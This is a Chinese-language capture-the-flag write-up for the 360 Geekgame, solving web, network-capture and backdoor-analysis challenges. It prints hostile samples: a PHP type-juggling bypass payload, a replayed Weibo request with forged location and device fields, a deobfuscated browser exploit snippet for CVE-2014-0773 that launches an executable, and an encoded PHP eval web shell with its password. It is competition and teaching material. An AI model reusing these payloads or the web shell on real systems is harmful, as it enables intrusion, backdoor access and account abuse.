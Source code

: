 ```yaml
---
layout: post
title: 360 Geekgame Writeup
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

#### WEB1

就一个大苹果的图，Format Analysis后得到一串base64:`ZW1lbS4uLiAvY3RmXzM2MF9mbGFnv`

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/6ehrtsgbfdx.png">

解密后为`emem... /ctf_360_flag`，是一个目录，图为被咬一口的苹果，osx默认下每个目录下都会存在一个.DS_Store文件来保存文件夹的显示属性，请求`/ctf_360_flag/.DS_Store`及得到flag：

	flag: 61cda90b0c742a90458c4ed43b328bcc

#### WEB3
根据图片Format Analysis后得到一大串摩斯密码：

	--. .. ..-. - --.. -- --. .- ;..<..- -.. .-- . .... .--. $.- = "----- .-.-.- .---- " ;$-... = $_--. . - [.----. -... . ----. ] ;.. ..- . ($-.. . -.-. -- = .- ---. .- ---. ){ .. ..-. ( .. ... _.- .- . .-. .- -.-- ($-... )){ . -.-. .. .. --- "-. - -- -.- . -.- - -.-.- - "; . -..- .. - ; }. .- .. ... . .. ..-. (- .-.-- . . ... _-. ..- -- . .-. .. -.-. ($-... )){ $-.-. = (.. -. - )(($.- + $-... ) * .- --- --- -- ); .. ..-. ($-.-. == "-- -.. " & & $-... [.---- ----- ] == ..- . .- . -.. ... . ){ . -. -. .... --- "..-. . -.. .- --. "; }. .-.. ... . { . -.-. .... -- - "-. --- - .- . - .-- -.- .-- "; . -. .- .. - ; } }. .-. . ... . { . - .-. ... . --- "-. -- - -.- . -.-- -.-.-- "; }}. .-. . ... . { . -.-. .... - -- "-. --- -.- . -.-- -. -.-- "; }..--.. >

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/76tyhfg.png">

解密得到一段php代码：

	<?php
    $a= "0.1";
    $b= $_GET['b'];
    if($b! = '' )
    {
        if(is_array  ($b))
        {
            echo "nokey!";
            exit;
        }
        else if(!is_numeric ($b ))
        {
            $c   = (int)(($a + $b  ) * 10 );
            if  ($c   == "8" && $b  [10 ] == false )
            {
                echo   "flag ";
            }
            else
            {
                echo  "nokey ";
                exit  ;
            }
        }
        else {echo  "nokey ";}
    }
    else {echo  "no  ";}
	?>

这段代码表示GET请求的参数b符合要求的话就能得到flag，首先$b不能为数组，并且还不能为数字，继续往下看，分析写在下面。

	$c = (int)(($a + $b) * 10)
	$c == "8"
	转换为公式：
	int((0.1+$b)*10)==8
	因为要(int)所以$b>0.7 & $b<0.8 = 0.71
	&& $b[10] == false转换为公式：
	判断$b第11位不能为true，
	$b="0.711111111";
	var_dump($b[10] == TRUE);为true
	$b="0.7100000000";
	var_dump($b[10] == TRUE);为false
	或者不构造那么长也就是后面为空的话也为false

往回看，$b既然不能为数字的话那么也没判断是否为字符串，而且在if里判断的是类型转换后赋值给的$c，所以请求`web3?b=0.71a`及得到flag:

	flag: 4e07fbad6ff26d9a3c9f198277866c66

#### NET1
>要求："根据所给的pcap数据包进行分析，伪造地点`360大厦`和`iphone 6 plus`手机，发送任意微博内容"

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;下载到pcap包后筛选下，请求方式为POST并且http内容中包含weibo字样的数据包。

	http.request.method=="POST" && http contains "weibo"

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;翻到第7305个数据包为发微博的request包，Follow TCP Stream。

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/tydhfgbxcv.png">

向下翻，poiid为地址

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/65i7rtuydh.png">

c为手机类型

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/8irujtydhfg.png">

content为微博内容

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/4aresgdfxc.png">

ua为User-Agent

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/7uytdhfgx.png">

根据这些字段就可以更改相应的字段为要求：

	ua=iPhone7,1__weibo__5.2.8__iphone__os8.3&c=iphone&poiid=B2094753D56EA0FE419C

然后重放request，获得flag:

	flag：195b8ef7140a6a09aa4e207e20f6304c

#### NET2
>请分析数据包并给出数据包中利用漏洞的CVE编号。（CVE编号即为过关密码，格式：CVE-XXXX-XXXX）

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/8irjtydfg.png">

是一段js混淆，进行其反混淆

	< html >
	< body >
	< object id = "mfHQh" classid = "clsid:5C2A52BD-2250-4F6B-A4D2-D1D00FCD748C">
		< script type = "text/javascript" >
	   mfHQh[CreateProcess]("C:\windows\explorer.exe \\bwvbprt.exe", 0, 1);
	<  / script >
	<  / body >

搜索了下，flag为`CVE-2014-0773`

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/eytdfg.png">

#### Encrypt2
>小明在服务器上发现了一个奇怪的php文件，初步断定为黑客留下的一句话后门，请分析php文件，找出一句话后门的密码。（密码即为Flag）


	<?php
	eval(gzinflate(base64_decode("pZLdSsNAEIXvBd+hTmOzMXTbFC3UGhtFEANWlLZES5OgvauoIFho2jy7s7PJhMSI
	F5Kbb2fPzs+Z7O8ZiYAmhLAFS9bQzhUQIboUPECKiUQDMSFMkYZIZt+U5nFkYijB0Kh0KfCcp+5wlh+6YaO2H9VFbW2BNK
	8U2iJJoiOk9Pek4q/ZBTwG481T4HeD3mC9vH79en67fb+fjScPM38aOMvL6erEn6xePm+uLj7u1i669I9qAucL4ZSDesQWC
	9WwHlGxkZRpwW9t1ikrDCRwAE87dtvm7EphlRQd3taC6AwpIjJ4A4XFkhcQ81uhbZcw6EN20a67mHPHxX8Qc+YQP7vyvxQJ
	IHNBa9usUBMcck5d1kNqEVmZl9CDkmNNnsLIFV3IKnsVRT4OOCQJdRNq76Pzbw==")));
	?>

这段代码进行base64+gzinflate加密，var_dump下看看执行结果：

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/67jtydgbfvc.png">

获得了一串base64密文`YXNzZXJ0X29wdGlvbnMoQVNTRVJUX1dBUk5JTkcsIDApOw==`，解码得到`assert_options(ASSERT_WARNING, 0);`这个函数设置ASSERT_WARNING为0，即为不回显warning，删掉这段base64加密后的代码执行下。

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/6i7jrtyd.png">

执行后由此看出是一段一句话木马，flag即为POST接受的参数：

	flag：p4n9_z1_zh3n9_j1u_Sh1_J13
